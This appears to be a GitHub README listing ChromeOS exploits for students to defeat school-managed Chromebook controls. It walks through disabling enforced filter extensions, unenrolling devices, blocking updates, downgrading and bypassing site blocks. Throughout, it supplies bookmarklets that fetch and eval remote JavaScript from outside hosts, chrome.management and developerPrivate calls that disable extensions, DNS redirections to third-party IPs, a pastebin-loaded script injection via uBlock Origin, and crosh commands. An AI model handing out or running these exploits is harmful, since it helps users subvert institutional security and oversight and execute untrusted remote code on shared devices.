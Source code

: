 # EXT-REMOVER
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destroy your computer if used improperly. So PLEASE PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/3kh0/ext-remover/discussions">here</a>

Please use these only when you have permission, I (3kh0) do not condone the use of any exploits for illegal purposes!
  
**ATTENTION ALL SYS ADMINS!!!**

Hello, I am Echo and I created this repo in order to give exploits for the masses and to prove one thing, Chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is an endless game of whack-a-mole. Treat your students to a Windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan

<details>
<summary><b>LTMEAT</b> Disable extensions</summary>

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

From [ltmeat.bypassi.com](https://ltmeat.bypassi.com), if you are interested in how this exploit works, check out that website.

1. Find a page belonging to the extension you want to disable. `chrome://extensions`, `chrome://extensions-internals`, and `chrome://process-internals` are all good places to find your extension's ID (a 32-character lowercase string). You can also just do a simple Google search. Once you have your ID, substitute it into the hostname in the URL below:

```
chrome-extension://extensionidhereblahblah/manifest.json
```

For some filters like Securly, the block screen is already an extension page. 

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C). 
3. While on the extension page (A), click the `chrome://kill` bookmark (B). The page should crash. You should already have the next step prepared. 
4. Instantly start spamming `chrome://hang` (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or `ctrl`+`R`). You should have reloaded within one or two seconds of killing the page. 

If the extension page (bookmark A) no longer loads, then LTMEAT worked! You can close your tabs and the extension will basically be dead. If nothing loads, then you probably reloaded too late or spammed too slowly. This isn't rocket science! Restart your computer to revert back to normal. 

Exploit made by [Bypassi#7037](https://buymeacoffee.com/bypassi), [further reading](https://ltmeat.bypassi.com)

### "Help me! I'm an idiot!"

Turns out that I had far too much faith in society when making this page. Some of you skids out there are really, really stupid and also can't read. So here are the answers to some commonly asked questions. 

**How do I get an extension ID?**

Okay, fair. Extension IDs are leaked in a couple of places. Generally, the best way to get them is to go to extension settings and copy the URL query value.

**It says blocked by client?**

That's the message you get when you try to visit a page belonging to an extension that doesn't exist. The error message (`ERR_BLOCKED_BY_CLIENT`) is extremely misleading. Nobody blocked it--you just need to find the right extension ID (see above).

If you got this because you tried to visit the `extension_id_here_please` example URL, you should be extremely ashamed of yourself. Please change and grow as a person. 

**I don't have a bookmarks bar!!!!**

First, try running ctrl+shift+B. If that doesn't work, go to `chrome://settings` and turn on the "home button" feature, then set it to `chrome://hang`. A home icon should show up to the right of your refresh icon in the top left. Use that instead of bookmark C.

There is a version where you don't need bookmarklets, but I am currently gatekeeping it (L). Check this site daily to see if new alternate instructions have been posted. 

**I disabled an extension but now I can't load websites!**

If you actually just read the write-up, you'd know that this would happen if the extension's background page loaded and its listeners were already initialized before you used `chrome://hang`. You can double-check whether the extension is listening using `chrome://extensions-internals`, assuming you have a few brain cells in your head.

Anyway, no listeners mean you were too slow. Either you waited more than three seconds between bookmark B and reloading the page, or you weren't spamming bookmark C fast enough. The most reliable fix for this is to just restart your computer and try again. Try to match the pace of the gif below: (note the reload) 

![image](https://ltmeat.bypassi.com/img/abc.gif)

**The bookmarks don't do anything when I click them!**

Might be admin-blocked. Either be smart enough to figure out another way, or check this site daily to see if new alternate instructions have been posted.

**I disabled the extension, why is some stuff still blocked?**

I have bad news for you... not all filters are Chrome Extensions. And again, make sure the extension pages (like bookmark A) are frozen before you assume that your skiddy self successfully did the exploit. 

[Baby method for slow people](https://ltmeat.bypassi.com/alt/1.txt)

*Need more help? [Ask in the discussions](https://github.com/3kh0/ext-remover/discussions)*

</details>

<details>
<summary><b>Temporary LTMEAT</b> Temporarily disable extensions</summary>

**A method of using LTMEAT that does not require `chrome://` urls.
Works by using 80-150 tabs to soak up memory.**

1. Create a bookmark with the link chrome://extensions/?id=idhereidkimaskid and name it “Kill switch”.

2. Create a new bookmark folder. Name it “spam.js”. Next, paste this link into your browser: chrome-extension://idhereidkimaskid/background.js

3. Then right-click on your folder and hit “Add Page”. Press Enter.

4. Right-click on the folder again and hit “Bookmark Manager”. You should see your page. Click on it and hit Ctrl+C. Press Ctrl+V until you have 38 of them.

5. Go to a new tab and right click your folder. Press “Open All (38)”.

6. Repeat step 3, then click on one of the tabs from this batch. Wait until the “this page is taking too long” popup appears. This will take 30-60 seconds. If it doesn’t, do chrome://restart and go back to step 2 and add 3-4 more pages to the folder.

7. Once the popup happens, right-click on one of the tabs closest to the right of the screen and hit “Duplicate”. Then, go to your “Kill switch” bookmark and look for a switch to flip, “Allow Access to File:// urls” or something. Then, click on the leftmost extension tab (one that opened from the main.js folder) and click “close all tabs to the right”. KEEP THIS TAB OPEN!!!

Tips: Go to chrome://settings/performance and turn Memory Saver off, and in the box where it says “Keep these sites always active” paste in the extension url. I’ve noticed clicking on one of the tabs from the second batch seems to help with reliability.

</details>

<details>
<summary><b>Baby LTMEAT</b> Disable extensions</summary>

**Patched On Chrome Versions 115 And Above**

BABY METHOD
FOR THE TECHNOLOGICALLY CHALLENGES.

1. Follow step one of the original instructions to find a page belonging to the Chrome extension you want to disable.

2. Visit that chrome-extension://blockeridhere page, then type chrome://hang in the URL bar of that tab. It should start loading infinitely.

3. Right-click the tab and duplicate it. Don't close anything.

4. Go to the chrome://extensions page for the blocker extension you want to Disable.

5. If that page has any sort of switch, such as "Allow access to file URLs", click that switch. If there are no clickable switches, cry in a corner or something.

The extension should now be broken, assuming you clicked the switch! Only one of the two duplicate tabs should be left standing. You can close your tabs now.

</details>

<details>
<summary><b>NEW LTMEAT</b> Disable extensions</summary>

  **If your Chromebook has received the 115 And Above patch on the stable channel Then Here's A New Method For LTMEAT**


**Unpatched on 115 and above**

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

1. Create a bookmark folder and paste the extension page lots of times. (About 800 minimum is recommended assuming your Chromebook is average school quality) It is recommended that you add the extension page at the beginning of the folder.

2. Right click and open all in a new window.

3. Close the window with all those tabs.

4. Open the folder in a new window again, and Chrome should hang those tabs to take care of the old ones in the background that were just closed. (Equivalent to the duplicate tab step in Bypassi's method)

5. Flip the Allow access to file URLs switch in the extension settings and then you've bypassed the patch and the exploit is working.

6. Close everything and you're good to go. If it didn't work, try adjusting the number of tabs being opened. Bypassi should add this to his website as Alternate Method # 2. With this workaround, LTMEAT can endure a longer life!

</details>

<details>
<summary><b>Baby NEW LTMEAT</b> Disable extensions</summary>

**Unpatched on 115 and above**

1. First of all, get your folder with 800+ extension page tabs and open it in a new window, for my Chromebook i used 800 extension page tabs as i feel it's the right amount for me

2. Close the newly opened Window with 800+ extension page tabs

3. Click into your folder, and open one of the extension page tab in a new window, maybe waiting slightly longer this time, to confirm it worked. If it loads, you did it wrong. If you see a "page unresponsive screen, and a wait/exit page button" you did it right. BUT DO NOT CLICK THE EXIT PAGE BUTTON OR WAIT BUTTON. (Or if you want to do it fast you can just see that the page always has a spinning loading circle)

4. Now go to `chrome://extensions/?id=yourblockerID`  Then scroll down and flick the "allow access to file URLs" lever and close the window with the 1 extension page tab remaining.

</details>

<details>
<summary><b>Print LTMEAT</b> Disable extensions with printing</summary>

1. Find your extension's largest file. This can usually be found by poking around in your extension's manifest.json.
2. Go to that page. and hit Ctrl+P. A print window should show up, with a number of pages in the top right.
3. Do everything you can to increase that number. Shrink down margins, change layout to landscape, anything you can. The higher you can get that number, the longer the effect will last.
4. Reload. The page should start hanging.
5. Go to your extension's settings page, `chrome://extensions`.
6. Duplicate your "printing" tab, and go back to your extension's settings page.
7. Flip any switch you can find there. Usually, there'll be one titled "Allow Access to File:// [URI]s".
8. Enjoy


**Where do I find my extension's manifest.json?**
First, find your extension's ID. This is a 32-character code that can be found on your extension's settings page, normally near or at the top. Then go to `chrome-extension://your-32-char-id-goes-here/manifest.json`

Credit to Bypassi for the original LTMEAT framework, and HUGE thanks to Swordmaster4321 for discovering that pages can be hung with printing and lots of help and suggestions along the way.

</details>

<details>
<summary><b>LoMoH</b> Disable extensions</summary>

  **This exploit has been patched in Chrome OS 111 after being found and reported. It should have gotten admin protection sooner.**

  **About: LoMoH is a Chromebook exploit that uses the Chrome OS locked mode feature to soft disable enforced extensions (excluding Hapara Highlights if installed).**

HTML VERSION: <a href="https://tiny.cc/LoMoH">LoMoH HTML</a>

BOOKMARKLET VERSION: javascript:(function(){if (location.hostname == "docs.google.com") {document.body.innerHTML = document.body.innerHTML.replace("Locked mode is on", "Are you ready to turn off extensions?%22);%20document.body.innerHTML%20=%20document.body.innerHTML.replace(%22You%20have%20already%20opened%20and%20closed%20this%20quiz.%20Opening%20this%20quiz%20again%20will%20notify%20the%20form%20owner%20by%20email.%22,%20%22This%20will%20reload%20all%20tabs%20in%20your%20browser%22);%20var%20button%20=%20document.getElementById(%27mG61Hd%27);%20button.innerHTML%20=%20button.innerHTML.replace(%22Start%20Quiz%22,%20%22Disable%20Extensions%22);%20button.addEventListener(%27click%27,%20function(event){window.close();})}%20else%20{window.open(%22https://docs.google.com/forms/u/0/d/e/1FAIpQLSf5EYwrSUjmQhBOasMpORZy80eBCYb7qCpEwWNoRPUGyObGMA/startquiz%22);}})()

</details>

<details>
<summary><b>Dextensify</b> Disable extensions</summary>

**Dextensify is an exploit that lets you disable most admin-installed Chrome extensions from any webpage. It can be used from regular websites, HTML files, and data URLs.**

Go here and follow instructions: <a href="https://dextensify.pages.dev/main">Dextensify Main HTML</a>
</details>

<details>
<summary><b>JPCMG</b> LTBEEF with Service workers</summary>

**Requirements**
- Access to `chrome://serviceworker-internals`
- Inspect element

1. Go to `chrome://serviceworker-internals`
2. Find your extension, this won't work if there's not a plugin in there.
3. Hit the start button then the `inspect` button, and execute the basic LTBEEF code
```js
chrome.management.setEnabled('<plugin id here>',false)
```
4. Profit

![image](https://user-images.githubusercontent.com/58097612/234904781-4d5ad77e-6045-435e-8aae-df12dec53013.png)

Thanks to Nyaann#3881 for this exploit
</details>

<details>
<summary><b>Extension Launcher</b> Install extensions w/o allowlist</summary>
A bookmarklet capable of installing extensions, for those without an allowlist. 

Steps: 
Go to <a href="https://extension-installer.glitch.me/code.js">here</a> bookmark the code there (Might make a DNS)
go to chrome.google.com/webstorex and use the bookmarklet, then put the icon of the extension, the id, and the name of it (This does not matter, you can put anything), then
press download, and it will work.
**Extra Notes**
- Credit to "Aka, but nice" on Discord.
- DNS will be up soon for those who have JavaScript bookmarklets blocked.
- This will not work if you have a blocklist this is only for if when you go to the web store it shows blocked
</details>

<details>
<summary><b> Point-Blank</b> Execute scripts on extension pages</summary>

This exploit allows you to execute scripts on extensions pages, this is a great example of how Chromebooks are a piece of garbage.

<i>Getting started</i>
(Note: if bookmarklets are blocked you're screwed.)
1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> ([if blocked](https://raw.githubusercontent.com/3kh0/ext-remover/main/newpointblank.js)) on your school chromebook.
2. Make a bookmark with the code there.
3. Once that is done,

 If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by Chrome, reload (you have to actually have Securly ofc)
 
 If you have iBoss visit <a href="https://tinyurl.com/goofboss">here</a>.
For Cisco Umbrella, visit <a href="https://tinyurl.com/goofumbrella">here</a>.
 
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a>.
 
 And if you have GoGuardian (might not work), go to <a href="https://tinyurl.com/goofguardian">here</a>. 
 
 Now most of these links are a block page(this is intentional) on each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript running on it, so running your own code may not work.
 
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by me, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

</details>

<details>
<summary><b>UBoss</b> Tamper with IBoss</summary>

By the BlueHatCrew
https://dsc.gg/blue-hat-crew

This works only for iBoss, and Blocksi, If you don't have one of these, use New Point Blank.

1. Go to https://tinyurl.com/byeswamp if you have iBoss or https://tinyurl.com/blockboss if you have Blocksi.
Then bookmark the code below
```js
javascript:opener.eval(`fetch("https://rounded-boiling-flax.glitch.me/uboss.js").then(data=>{data.text().then(e=>{eval(e)})})`) && close();
```
2. Then go to the site with your blocker that was listed above.
3. Run the code. Follow the instructions there.

If it doesn't work let us know by creating a discussion, this was made in partnership with Aka, but nice#5094 and Bypassi#7037.

</details>

<details>
<summary><b>CAUB</b> Prevent Updates</summary>

This exploit keeps your Chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your Chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school-issued Chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifi that you've connected to in the past.
3. Click the `+` sign next to the wifi name of each network that you commonly connect your Chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox below.
8. Press the `generate onc` button below the textbox.
9. Once you have downloaded the file, go to `chrome://network#general`.
10. Click on the `import ONC` button.
11. Import the newly-downloaded file.

**Extra notes**
- Your Chromebook will no longer automatically update. (as long as you are on a wifi that you used CAUB on)
- Be careful not to stay on wifi for too long without using CAUB on it, otherwise you might update.
- We cannot guarantee that this will work on every wifi

</details>

<details>
<summary><b>LTBEEF</b> Disable extensions</summary>

LTBEEF is an exploit, created by Bypassi#7037, which abuses API endpoints within the Google Chrome web store. The original site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>

<b>Please Note:</b> This exploit only works on versions below 106, and earlier versions of 102
  
**Installation**  
There are several versions of this exploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    1. To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
    - Compact Cow's UI  
    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```  
    - Compact Cow's UI (Dark)
    ```js
    javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);
    ```
    2. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. 
    3. Flip the switches on the extensions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    1. First, go to Settings > Network > Wifi > Network.
    2. Click on `Custom Name Servers`
    
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  
    
    3. Set every box there to the following ip:
    ```
    158.101.114.159
    ```
    (Hosted by The Greatest Giant#0110)  
    4. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. 
    5. Flip the switches on the extentions you want to disable.
    6. Profit
    
</details>  

<details>
<summary><b>LTBEEF inspect</b> Using inspect to disable extensions</summary>

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on `108.0.5359.75` (Official Build) (64-bit) on the stable channel. This has been tested and does work but has varying levels of success, you will need access to inspect element, more specifically, console.

1. Open this on your chromebook: 
```
chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json
``` 
Shortened link: https://tinyurl.com/i-ltbeef
2. Open inspect and navigate to the console tab.
3. Run the basic LTBEEF code such as
```js
chrome.management.setEnabled('extensionid', false)
```
Replacing `extensionid` with the ID of the extension you want to disable, e.g. the stuff after the = in the URL bar when you click the extension's "details" button in chrome://extensions

Credit to SprinkzMC#8421 (aka Bypassi) for finding this!

![image](https://user-images.githubusercontent.com/58097612/207385046-5a9f6f07-6089-4775-9183-c11bd24ba02c.png)

To re-enable just go to the Chrome web listing for the extension and click on the banner.

</details>

<details>
<summary><b>Blank3r</b> Reload extensions continuously</summary>

Point Blank is an exploit that allows you to run bookmarklets on privileged pages, such as the Chrome extensions page. This exploit was made with Point Blank as well.

The exploit code is below.
1. Bookmark this code:

```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```

And the GUI is in launcher.js

2. Navigate to `chrome://extensions`.

3. Click on an extension that YOU installed from the Chrome Web Store > Details.

4. In the URL bar, copy the string of letters and numbers after the `/?id=`.

5. Click "View in Chrome Web Store" and spam the escape key. If it loads into Chrome Webstore try again, if it is a blank screen click the bookmarklet.

5. Paste the id of the extension into the prompt separated by commas.

If you close the tab, the exploit will stop working.

</details>

<details>
<summary><b>SH1mmer</b> Unenrollment</summary>  
SH1mmer is an exploit developed by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  

Further information is now located at these links:

[Official Repository](https://github.com/CoolElectronics/sh1mmer)  
[Official Website (INSTRUCTIONS)](https://sh1mmer.me/)  
[Raw Shims Download](https://files.ultimatesrv.com/)  
[Wax4Web Shim Builder](https://build.ultimatesrv.com/)
</details>

<details>
<summary><b>Downgrading</b> Change versions</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, such as LTBEEF. This is a built-in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4GB of storage, some boards have small or bigger images, I recommend 16GB
2. A personal computer with access to downloading extensions
3. A brain
If you do not have these, you **CAN NOT** perform the exploit!

<i>Setup</i>
1. Navigate to `chrome://version` on the Chromebook you wish to downgrade and check for your board under `Platform` (ex I have a c3100 and its board is stable-channel octopus).

<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">

2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board.
3. Find and download the Chrome version you want to your personal computer.

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer. (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">chrome.google.com/webstore/detail/Chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm</a>
2. Open the extension, click on the settings button in the top right-hand corner, and click "use local image".
3. Select the recovery image you downloaded from chrome100.
4. Plug in the USB you wish to use, and follow the prompts on the screen.
5. On your Chromebook, press esc+reload+power and follow the prompts.
6. On the checking for updates screen, press `ctrl`+`shift`+`e` to skip the "checking for updates" screen.
7. Profit.

</details>
  
<details>
<summary><b>Killcurly</b> Break extensions</summary>
Kill extension, by signing out.

1. Visit `chrome://settings/signOut`, the O in Out must be capitalized.
2. Press the big blue button
3. Go to `chrome://restart`
4. Now visit `tinyurl.com/AddSession` or [this link](https://accounts.google.com/signin/v2/identifier?hl=en&continue=https%3A%2F%2Fwww.google.com%2F&ec=GAlAmgQ&flowName=GlifWebSignIn&flowEntry=AddSession)
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, YouTube, and any Google service.
6. All extensions should stop working.
7. Note that you have to repeat this every time you restart or sign out.
8. If your Chrome version is `v112`, this exploit will no longer work, the bypass to this is listed further on. Visit`chrome://settings/resetProfileSettings` click current settings, and it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
And visit `chrome://restart`.
`
**This was discovered by Zoroark**
</details>

<details>
<summary><b>Extention Inactivity hack</b> Inactive Extensions</summary>

1. First do the Esc+Refresh+Power

2. ctrl+d then enter

3. will give you some bullcrap about dev mode being blocked press enter then you will go to a newly restarted Chromebook

4. next add wifi-

5. then sign into your account

6. Immediately turn wifi off before extensions load

7. go to chrome://settings/signOut

8. click Turn off sync and personalization and then turn wifi back on go to whatever site that is extension blocked.

1. Workaround for chrome://settings/signOut if patched: If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` and click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
2. Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps

Note: Before you do any of the method 4 tricks only do this at home so that way you don't have to worry about asking for the school wifi password.

</details>

<details>
<summary><b>New Temporarily Unblock Anything</b> Temperarily Unblock Any Website</summary>

**Might Be Patched on 115 And Above**

Step 1 go to the chrome-extension://Paste the blocker id here/manifest.json page.

Step 2 go to a new tab page and type in the URL Website you want to unblock don´t go into that website yet just leave it inside the URL Box.

Step 3 go back to chrome-extension://Paste the blocker id here/manifest.json now create a bookmark called E now click more and In the URL Box you put chrome://kill now save that bookmark.

Step 4 create another bookmark called D. Click more In the URL Box copy and paste  `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`    Into that URL Box and save that bookmark.

Step 5 go back to chrome-extension://Paste the blocker id here/manifest.json page and now click bookmark B. Then quickly go back to the new tab page and click enter now quickly spam bookmark D like 2 or more times now there should be a pop-up called `Do you want to close this page?` click cancel now boom that website is unblocked until you turn off your Chromebook or until you exit out of that website then if that happens your gonna have to do all the steps again.

An easier way for step 2: instead of putting the URL in the new tab box go to chrome-extension://Paste the blocker id here/manifest.json page then click Bookmark E then go to a random website then use the `javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))` Bookmarklet then spam Bookmark D two or more times then a pop up should appear quickly click cancel now boom all done.
  
Name of Bookmarklet > Unblock Website: `javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))`

Note: Save `chrome-extension://Paste` the blocker id here/manifest.json as a bookmark so you don´t have to come back here and type in the URL thing.

IMPORTANT NOTE: if bookmarklets are blocked your screwed

</details>

<details>
<summary><b>Old Temporarily Unblock Anything</b> Temperarily Unblock Any Website</summary>

  Step 1 make a bookmark called tab close blocker now click more on the bottom left corner in that URL BOX put `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`

Step 2 go to a newtab page now go into the URL BOX on the top and put https://YOUR WEBSITE HERE do not click enter yet stay in that URL BOX.

Step 3 do search+esc now that should open task manager if search+esc doesn't work then click the three dots on the top right now and scroll down until you find more tools click that and now find Task Manager click it now boom done with step 3.
Step 4 find your blocker extension and click it now on the bottom right you should see a button called End process click it now quickly click the URL BOX on the new page and click enter now quickly spam the bookmark tab close blocker Now a pop up should come up it should have to buttons cancel and leave click cancel and boom done.
  IMPORTANT NOTE: if bookmarklets are blocked your screwed also if task manager or the End Process button for the task manager is blocked your double screwed.
  </details>
  <details>
  <summary><b>Incognito</b> Bypass Extensions</summary>
IP Server: Server 1. 52.207.185.90
Step 1. Go to your settings
Step 2. Click on the wifi your using rn then click it again.
Step 3.  Scroll down until you see network once you see the option click it.
Step 4. Scroll down until you find custom name servers now once you find the option click it.
Step 5. Paste in the IP Server.
Step 6. Now there should be a notification saying open a new tab click that and now you should be in a small window some instructions and there are 2 buttons click the yellow with black letters button and boom Incognito Mode is Unblocked.
One of the buttons are just a link in blue don´t click that one is just for tests
Step 7. Go back to the network settings and change the custom name servers to automatic name servers.
Note: If your connection is slow if your school has more than one wifi then connect to the other wifi that might have a better connection.
If you close out of the Incognito Tab you will have to do all the steps again.
Cool Advanced Facts About Incognito Mode:
1. Bypass Extensions Aka Unblock All Websites.
2. Your History Is Hidden From Your School
</details>
<details>
<summary><b>Google System Method</b> Bypass Extensions</summary>
Unblocked Google
  
Step 1. Go to `chrome://chrome-signin`
Step 2. Click OK on the bottom right corner
Step 3. In the Email text box put `google@d11.org`
Step 4. Click `signin options`
Step 5. Now click sign in with GitHub
Step 6. Click the GitHub cat icon
Step 7. In the search box on the top right type google and then click see more topics then you will see all the Google links click `www.google.com` now boom unblocked Google.
</details>
<details>
<summary><b>Quick View</b> Bypass Extensions</summary>
**QuickView is a universal webview exploit in Chrome OS that utilizes the QuickOffice component extension. This exploit lets you create login windows with arbitrary URLs, thus allowing you to load pages without any extensions.**
Go here and follow the instructions: https://quickview-exploit.pages.dev/
WARNING: If javascript:// is blocked then you can't perform this exploit

</details>

<details>
<summary><b>School Network Restriction Bypass</b> Bypass School Network Restrictions</summary>
IP Server 1: 8.8.8.8 in all boxes
IP Server 2: 1.1.1.1 in the first box and 1.0.0.1 in the second box the third and fourth boxes stay 0.0.0.0

Step 1. Go to your settings

Step 2. Click on the wifi you using right now then click it again.

Step 3.  Scroll down until you see the network once you see the option click it.

Step 4. Scroll down until you find custom name servers once you find the option click it.

Step 5. Paste in one of the IP Servers.
Note: If IP Server 1 doesn't work then use IP Server 2 if IP Server 2 doesn't work then try using IP Server 1 if they both don't work you're screwed

</details>

<details>
<summary><b>OP Crosh</b> Disable extensions with crosh</summary>

1. Back up any data you want before the powerwash.
2. If you're doing the second variation, note down any extension IDs. You may also want to do this if you intend on disabling all extensions, since sometimes that will fail and require you to specify each extension you want to disable.
3. Powerwash by attempting to enable developer mode. Instructions are available here: [this link](https://chromium.googlesource.com/chromiumos/docs/+/master/developer_mode.md#dev-mode)
4. Log into your Google account as normal, but immediately disable your internet right after you sign in.
5. You should be logged into your account, but without any extensions installed due to being offline.
Here the instructions are split, so follow the one for the method that you want to do.
 
Disable All Extensions:
1. Open up crosh by hitting ctr+alt+t.
2. Type in `vmc create-extra-disk --size 1 /home/chronos/user/Extensions`
3. Run that command.
4. If it fails with a "file exists" error, then you must individually specify each extension that you want to remove. Move to step 5 of the next section to do that.
5. Re-enable your internet, and no extensions should be installed.
 

Disable Specific Extensions:
1. Navigate to `chrome://extensions`.
2. Enable your internet, and immediately disable it when an extension is installed.
3. Assuming the installed extension was not one that you were trying to disable, move on to step 4. If it was, you'd have to powerwash to try again.
4. Open up crosh by hitting ctr+alt+t.
5. For each extension you want to disable, run this command: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/{extension_id}`
6. Each command should look something like this: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/cjpalhdlnbpafiamejdnhcphjbkeiagm`
7. Re-enable your internet, and if you typed/pasted in the extension IDs correctly, those specific extensions should be blocked from ever being installed.

Made by vk6

</details>

<details>
<summary><b>uBlock Origin</b> Run Code On Pages</summary>

if your school allows the ublock origin chrome extension, then running any javascript on pages is possible

1. install [ublock origin](https://ublockorigin.com/)
2. Go to the extension's settings
3. Under the settings tab, check the "I am an advanced user" box and click on the cog icon (image 1)
4. Inside the advanced settings, change `userResourcesLocation` from unset to https://pastebin.com/raw/PPZ1T7uh (image 2)
5. In the custom filters tab of the settings, add `##+js(execute_script.js)` as a filter (image 3)
6. Now you can press ctr+alt+tilde (~) to run any js on the current page
7. If you want to run a bookmarklet, just paste in the javascript: url and press enter on the popup

</details>

boop
